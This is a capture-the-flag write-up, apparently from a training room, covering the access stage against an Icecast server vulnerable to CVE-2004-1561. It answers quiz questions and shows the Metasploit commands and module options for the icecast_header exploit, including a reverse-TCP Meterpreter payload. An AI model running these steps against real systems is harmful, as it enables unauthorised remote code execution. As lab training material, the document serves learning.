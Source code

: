 ## Gain Access

The room points us to the following link for details regarding the exploit we will be using: [CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/)

#### CVE-2004-1561 - Buffer overflow in Icecast 2.0.1 and earlier allows remote attackers to execute arbitrary code via an HTTP request with a large number of headers.

### What is the Impact Score for this vulnerability?

> According to [*cvedetails.com*](https://cvedetails.com), the impact score is **6.4**

### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

> The CVE number for this vulnerability is **CVE-2004-1561**

### After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module?

- We can start the Metasploit console using <code>msfconsole</code>
- Here are the returned results when we search use <code>search icecast</code> after starting *Metasploit*:

<code>0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite</code>

> The full path to the exploit is **exploit/windows/http/icecast_header**

### Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank?

- <code>use 0</code> to select the icecast exploit from search results
- Use <code>show options</code> to show Metasploit module options

The following options get returned for the Icecast module:

```
Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.29.246.187   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```